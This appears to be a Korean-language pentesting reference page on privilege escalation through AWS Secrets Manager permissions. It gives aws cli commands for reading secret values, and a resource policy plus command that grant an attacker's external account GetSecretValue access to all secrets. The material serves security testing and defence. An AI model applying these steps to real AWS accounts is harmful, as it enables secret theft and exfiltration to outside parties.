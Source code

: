 # AWS - Secrets Manager Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Secrets Manager

Secrets Manager에 대한 자세한 정보는 다음을 확인하세요:

{{#ref}}
../aws-services/aws-secrets-manager-enum.md
{{#endref}}

### `secretsmanager:GetSecretValue`

이 권한을 가진 공격자는 AWS **Secretsmanager**의 **비밀에 저장된 값**을 가져올 수 있습니다.
```bash
aws secretsmanager get-secret-value --secret-id <secret_name> # Get value
```
**잠재적 영향:** AWS Secrets Manager 서비스 내의 고감도 데이터에 접근할 수 있습니다.

### `secretsmanager:GetResourcePolicy`, `secretsmanager:PutResourcePolicy`, (`secretsmanager:ListSecrets`)

이전 권한을 통해 **다른 주체/계정(외부 포함)** 에게 **비밀**에 접근할 수 있는 권한을 **부여**할 수 있습니다. KMS 키로 암호화된 **비밀**을 **읽기** 위해서는 사용자가 **KMS 키에 대한 접근 권한**도 필요하다는 점에 유의하십시오 (자세한 내용은 [KMS Enum 페이지](../aws-services/aws-kms-enum.md)에서 확인할 수 있습니다).
```bash
aws secretsmanager list-secrets
aws secretsmanager get-resource-policy --secret-id <secret_name>
aws secretsmanager put-resource-policy --secret-id <secret_name> --resource-policy file:///tmp/policy.json
```
policy.json:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::<attackers_account>:root"
},
"Action": "secretsmanager:GetSecretValue",
"Resource": "*"
}
]
}
```
{{#include ../../../banners/hacktricks-training.md}}
